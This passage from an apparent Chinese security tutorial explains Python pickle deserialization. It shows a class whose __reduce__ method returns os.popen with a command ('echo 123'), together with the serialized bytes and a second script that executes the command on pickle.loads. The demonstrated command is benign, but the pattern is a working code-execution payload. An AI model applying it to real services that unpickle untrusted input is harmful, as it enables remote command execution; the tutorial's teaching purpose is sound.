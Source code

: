 不过在一个典型的 Python web 应用中，不同的 Python 模块（.py 文件）通常共享相同的全局命名空间，所以不会出现找到不xxx的情况，但拥有各自独立的局部命名空间，以确保请求的隔离性和安全性。  
  
现在我们将 **__reduce__** 加入其中，创建新的a.py如下：  
```
import os
import pickle

class Payload:

    def __init__(self):
        self.wgp_sec = 'WgpSec'  # 实例变量

    def __reduce__(self):
        return (os.popen, ('echo 123',))

serialized = pickle.dumps(Payload())
print(serialized)
# 序列化后的数据：b'\x80\x04\x95\x1f\x00\x00\x00\x00\x00\x00\x00\x8c\x02os\x94\x8c\x05popen\x94\x93\x94\x8c\x08echo 123\x94\x85\x94R\x94.'

```  
  
其实看序列化后的数据能大概看出来类的实例变量没有被序列化进去。我们再将这个序列化后的数据放到b.py里面去反序列化试试，代码如下：  
```
import pickle

deserialize = pickle.loads(b'\x80\x04\x95\x1f\x00\x00\x00\x00\x00\x00\x00\x8c\x02os\x94\x8c\x05popen\x94\x93\x94\x8c\x08echo 123\x94\x85\x94R\x94.')
print(deserialize.read())  # 输出123
try:
    # 尝试访问原先类的变量
    print(deserialize.wgp_sec)
except Exception as e:
    print(e)
    # 抛出错误：'_io.TextIOWrapper' object has no attribute 'wgp_sec'

```  
  
由此可见，在b.py中被反序列化后的对象实际上是os.popen()，而不是原先的Payload类实例。python不需要去找Payload类定义，但是会去找os，不过python自带的模块以及pip安装的包都是全局命名空间的（不同的虚拟环境间，第三方包只作用于当前虚拟环境），自然也就不会报错。  
  
再做一个小小的拓展，代码如下：  
```
import os
import pickle

class Payload:

    def __init__(self):
        self.wgp_sec = 'WgpSec'  # 实例变量

    def __reduce__(self):
        return (os.popen, ('echo 123',))

serialized1 = pickle.dumps(Payload)
serialized2 = pickle.dumps(Payload())

print(serialized1)
# 序列化后的数据：b'\x80\x04\x95\x18\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x07Payload\x94\x93\x94.'

print(serialized2)
# 序列化后的数据：b'\x80\x04\x95\x1f\x00\x00\x00\x00\x00\x00\x00\x8c\x02os\x94\x8c\x05popen\x94\x93\x94\x8c\x08echo 123\x94\x85\x94R\x94.'

```  
